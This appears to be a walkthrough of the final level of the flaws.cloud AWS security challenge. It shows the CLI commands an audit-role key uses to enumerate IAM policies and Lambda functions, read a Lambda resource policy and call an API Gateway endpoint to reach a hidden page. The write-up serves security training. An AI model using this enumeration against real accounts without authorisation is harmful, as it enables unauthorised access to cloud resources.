

# Level 6

Status: Done Assign: Dcyberguy

### Level 6

For this final challenge, you're getting a user access key that has the SecurityAudit policy attached to it. See what else it can do and what else you might find in this AWS account.

```json
For this final challenge, you're getting a user access key that has the SecurityAudit policy attached to it.  See what else it can do and what else you might find in this AWS account.

Access key ID: AKIAXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX<br>
Secret: S2IpymXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX<b

```

The creds are valid credentials

```json
aws sts get-caller-identity --profile flaws-l6 | jq
{
  "UserId": "AIDAIRMDOSCWGLCDWOG6A",
  "Account": "975426262029",
  "Arn": "arn:aws:iam::975426262029:user/Level6"
}

```

The first thing I would do would to check that permissions are assigned to the `level6` user.

```json
aws iam list-attached-user-policies --user-name level6 --profile flaws-l6 | jq
{
  "AttachedPolicies": [
    {
      "PolicyName": "MySecurityAudit",
      "PolicyArn": "arn:aws:iam::975426262029:policy/MySecurityAudit"
    },
    {
      "PolicyName": "list_apigateways",
      "PolicyArn": "arn:aws:iam::975426262029:policy/list_apigateways"
    }
  ]
}
```

There is a `MySecurityAudit` policy and a `list_apigateways` attached user policies.

Once you have the `policy ARN`, you can use the `get-policy` command to retrieve the policy details and then use the `get-policy-version` command to get the actual policy document (the permissions granted).

```json
aws iam get-policy --policy-arn arn:aws:iam::975426262029:policy/MySecurityAudit --profile flaws-l6 | more
{
    "Policy": {
        "PolicyName": "MySecurityAudit",
        "PolicyId": "ANPAJCK5AS3ZZEILYYVC6",
        "Arn": "arn:aws:iam::975426262029:policy/MySecurityAudit",
        "Path": "/",
        "DefaultVersionId": "v1",
        "AttachmentCount": 1,
        "PermissionsBoundaryUsageCount": 0,
        "IsAttachable": true,
        "Description": "Most of the security audit capabilities",
        "CreateDate": "2019-03-03T16:42:45+00:00",
        "UpdateDate": "2019-03-03T16:42:45+00:00",
        "Tags": []
    }
}

```

Now, use the version ID to retrieve the policy document:

```json
aws iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/MySecurityAudit --version-id v1 --profile flaws-l6 | more
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": [
                   << SNIP FOR BREVITY >> 
                        "iam:Get*",
                        "iam:List*",
                        "iam:SimulateCustomPolicy",
                        "iam:SimulatePrincipalPolicy",
                        "iot:Describe*",
                        "iot:List*",
                        "kinesis:DescribeStream",
                        "kinesis:ListStreams",
                        "kinesis:ListTagsForStream",
                        "kinesisanalytics:ListApplications",
                        "kms:Describe*",
                        "kms:List*",
                        "lambda:GetAccountSettings",
                        "lambda:GetPolicy",
                        "lambda:List*",
                 << SNIP FOR BREVITY >>
                    ],
                    "Resource": "*",
                    "Effect": "Allow"
                }
            ]
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2019-03-03T16:42:45+00:00"
    }
}

```

Above is what the `level6` user is allowed to perform in that particular AWS account.

Let’s do same for the other attach policy. `list_apigateways`

```json
aws iam get-policy --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --profile flaws-l6 | more
{
    "Policy": {
        "PolicyName": "list_apigateways",
        "PolicyId": "ANPAIRLWTQMGKCSPGTAIO",
        "Arn": "arn:aws:iam::975426262029:policy/list_apigateways",
        "Path": "/",
        "DefaultVersionId": "v4",
        "AttachmentCount": 1,
        "PermissionsBoundaryUsageCount": 0,
        "IsAttachable": true,
        "Description": "List apigateways",
        "CreateDate": "2017-02-20T01:45:17+00:00",
        "UpdateDate": "2017-02-20T01:48:17+00:00",
        "Tags": []
    }
}

```

The policy document is: This should be our attack path

```json
aws iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4 --profile flaws-l6 | more
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": [
                        "apigateway:GET"
                    ],
                    "Effect": "Allow",
                    "Resource": "arn:aws:apigateway:us-west-2::/restapis/*"
                }
            ]
        },
        "VersionId": "v4",
        "IsDefaultVersion": true,
        "CreateDate": "2017-02-20T01:48:17+00:00"
    }
}

```

But nothing on the `apigateway` I will pivot to something else.

#### Lambda Functions

I found a `lambda` function in `us-west-2` that is `level6`. Which is something worth looking into

```json
aws lambda list-functions --region us-west-2 --profile flaws-l6 | more
{
    "Functions": [
        {
            "FunctionName": "Level6",
            "FunctionArn": "arn:aws:lambda:us-west-2:975426262029:function:Level6",
            "Runtime": "python2.7",
            "Role": "arn:aws:iam::975426262029:role/service-role/Level6",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 282,
            "Description": "A starter AWS Lambda function.",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2017-02-27T00:24:36.054+0000",
            "CodeSha256": "2iEjBytFbH91PXEMO5R/B9DqOgZ7OG/lqoBNZh5JyFw=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "d45cc6d9-f172-4634-8d19-39a20951d979",
            "PackageType": "Zip",
            "Architectures": [
                "x86_64"
            ],
            "EphemeralStorage": {
                "Size": 512
            },
            "SnapStart": {
                "ApplyOn": "None",
                "OptimizationStatus": "Off"
            },
            "LoggingConfig": {
                "LogFormat": "Text",
                "LogGroup": "/aws/lambda/Level6"
            }
        }
    ]
}

```

Looking at the `lambda policy` I found something that might be helpful

```json
❯ aws lambda get-policy --function-name Level6 --region us-west-2 --profile flaws-l6 | jq
{
  "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"904610a93f593b76ad66ed6ed82c0a8b\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"apigateway.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:975426262029:function:Level6\",\"Condition\":{\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}}}]}",
  "RevisionId": "edaca849-06fb-4495-a09c-3bc6115d3b87"
}

```

The policy you're showing is a Lambda execution policy that grants permissions for API Gateway to invoke a Lambda function. This type of policy is typically used to allow a specific service (like API Gateway) to trigger a Lambda function in response to an HTTP request or API call.

```
The AWS:SourceArn condition matches the source of the API call, which in this case is an API Gateway endpoint.

The ARN pattern specifies:

    The region is us-west-2.

    The account ID is 975426262029.

    The API Gateway ID is s33ppypa75.

    The HTTP method is GET.

    The resource path is /level6.
    
    
This means that only GET requests to the /level6 endpoint on the s33ppypa75 API Gateway will be allowed to invoke the Level6 Lambda function.
```

One of the simplest ways to initiate a GET request to the /level6 endpoint is by using curl (which is available in most UNIX-like operating systems, including Linux and macOS).

```json
curl https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6
"Go to http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/"HTTP/2 200 
content-type: application/json
content-length: 76
date: Sat, 24 Jan 2026 03:10:01 GMT
x-amzn-trace-id: Root=1-69743809-50320dbf2bd78de164c8f9ac;Parent=12979ed825b04c8e;Sampled=0;Lineage=1:e21fb58f:0
x-amzn-requestid: 5fa5cd47-3d21-4631-9f93-bfb81c17d0a3
x-amz-apigw-id: Xq2xfENJPHcEeXQ=
x-cache: Miss from cloudfront
via: 1.1 d0f195624e615b103c40900f88cfd922.cloudfront.net (CloudFront)
x-amz-cf-pop: IAD89-P1
x-amz-cf-id: D8REAiPj36eaR3Ktv87qo1k6azH2oh5vDC-9ND7qWNU5XEDy4YHQdQ==

```

Nice, I get a link to go the below link.


